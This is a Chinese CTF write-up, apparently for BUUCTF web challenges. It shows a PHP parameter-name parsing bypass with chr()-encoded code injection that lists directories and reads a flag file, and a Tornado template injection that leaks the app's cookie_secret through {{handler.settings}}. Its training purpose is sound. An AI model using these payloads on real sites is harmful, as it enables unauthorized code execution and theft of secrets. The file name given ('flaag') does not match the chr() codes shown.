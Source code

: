 ​	可以看到if里要求没有传入num参数就显示源码，否则$str = $_GET['num'];。

​	意思就是说既让我们传入又不让我们传入num。这里可以使用php解析漏洞进行绕过

```
calc.php? num=phpinfo()
```

这样在if里会被认为传入的是" num"而不是num，经过php解析之后就变回"num"所以就执行了else。

先看一下phpinfo有没有禁用函数,过滤了执行系统命令的函数

![1626090200357](buuweb_page1.assets/1626090200357.png)

​	这样就得用其他函数来读flag了，读文件的函数有很多(例如:show_source,highlight_file,print_r,var_dump,include)var_dump等一些打印的函数没有过滤，scandir，file_get_contents()也没有过滤，可以使用这三个函数来绕过

​	可以先打印一下根目录

```
calc.php? num=var_dump(scandir('/'))
```

这样是不被允许的，因为黑名单过滤了 "/",可以使用chr将ascii转为字符串

```
calc.php? num=var_dump(scandir(chr(47)))
```

可以看到flag位于根目录，且名称为flaag

![1626090410340](buuweb_page1.assets/1626090410340.png)

可以利用file_get_contents()直接读

```
calc.php?%20num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))
```

http走私的做法

## [护网杯 2018]easy_tornado

既然是tornado肯定是考察模板注入，模板注入肯定要找注入点

开始的三个文件找了一圈都没找到注入点在哪，然后就没思路了，看了一下师傅的wp，发现注入点在error这个路由

![1626091669339](buuweb_page1.assets/1626091669339.png)

想到flask的secret是位于{{config}},所以看下config，因为只会flask的注入，给我一堆报错就很蒙。

![1626091720477](buuweb_page1.assets/1626091720477.png)

然后百度之后才知道，tornado的config是在

```
{{handler.settings}}
```

```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '7901570a-b76e-4578-9449-e65910e41c40'}
```
